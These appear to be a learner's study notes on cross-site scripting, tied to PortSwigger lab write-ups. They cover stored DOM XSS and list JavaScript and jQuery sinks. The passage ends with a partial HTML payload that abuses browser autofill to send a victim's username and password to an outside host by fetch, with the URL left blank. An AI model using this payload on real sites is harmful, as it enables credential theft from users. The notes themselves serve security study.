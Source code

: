 ## Stored DOM XSS
- website receives data from one request, stores it and then includes the data in a later response
	- a script within the later response contains a sink which then processes the data in an unsafe way
`element.innerHTML = comment.author`
Lab: [Stored DOM XSS](../../../../writeups/portswigger/Stored%20DOM%20XSS.md)
## Potential Sinks
### Main Sinks
```javascript
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```
### jQuery Sinks
```javascript
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```
# Exploiting XSS
## Exploiting XSS To Steal Cookies
Lab: [Exploiting cross-site scripting to steal cookies](../../../../writeups/portswigger/Exploiting%20cross-site%20scripting%20to%20steal%20cookies.md)
## Exploiting XSS To Steal Passwords
- to exploit the `autofill` function of browsers
```html 
<body>
  <script>
    function stealsCreds(u, p) {
      fetch("https://", {
        method: "POST",
        mode: "no-cors",
        body: u+":"+p,
      });
    }
  </script>
  <form>
```